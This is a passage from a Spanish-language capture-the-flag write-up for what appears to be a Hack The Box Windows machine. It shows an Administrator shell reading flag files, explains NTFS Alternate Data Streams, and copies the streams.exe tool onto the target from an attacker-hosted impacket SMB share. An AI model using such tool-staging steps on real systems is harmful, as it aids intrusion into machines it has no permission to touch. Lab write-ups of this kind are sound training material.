 ```
...[SNIP]...

```
```
C:\cd Documents and Settings\Administrator\Desktop
C:\Documents and Settings\Administrator\Desktop>type root.txt
It's easy, but not THAT easy...

C:\Documents and Settings\Administrator\Desktop>cd flags
C:\Documents and Settings\Administrator\Desktop\flags>type "2 for the price of 1!.txt"

For limited time only!

Keep an eye on our ADS for new offers & discounts!

```
El contenido del archivo "2 for the price of 1!.txt" incluye un mensaje que dice: "Esté atento a nuestras ADS para conocer nuevas ofertas y descuentos". Este mensaje podría parecer enigmático, ya que hace referencia a las siglas "ADS", que se asocian con "Alternate Data Streams" o, en español, "flujos de datos alternativos"
><p style="font-size: 16px;">Los flujos de datos alternativos (ADS) en Windows son, en esencia, archivos ocultos que pueden considerarse como "metadatos" asociados a un archivo principal. Estos flujos de datos alternativos representan una característica del sistema de archivos NTFS (New Technology File System) de Windows que posibilita la inclusión de información adicional en un archivo existente sin alterar el contenido original.</p>

Primero debemos descargar el ejecutable de [streams.exe](https://learn.microsoft.com/en-us/sysinternals/downloads/streams), una utilidad de Systernals que permite ver y manipular atributos de datos alternativos (ADS).

Yo me transferí el ejecutable por medio de smbserver.

```
┌─[ot3ro@parrot]─[~/Downloads]
└──╼ $sudo impacket-smbserver share -smb2support $(pwd)

...[SNIP]...

[-] SMB2_NEGOTIATE: SMB2 not supported, fallbacking
[*] AUTHENTICATE_MESSAGE (\,DROPZONE)
[*] User DROPZONE\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[-] Unknown level for query path info! 0x109
[*] Disconnecting Share(1:IPC$)
[*] Closing down connection (10.10.10.90,1041)
[*] Remaining connections []

```
```
C:\Documents and Settings\Administrator\Desktop\flags>copy \\10.10.14.9\share\streams.exe

        1 file(s) copied.
```
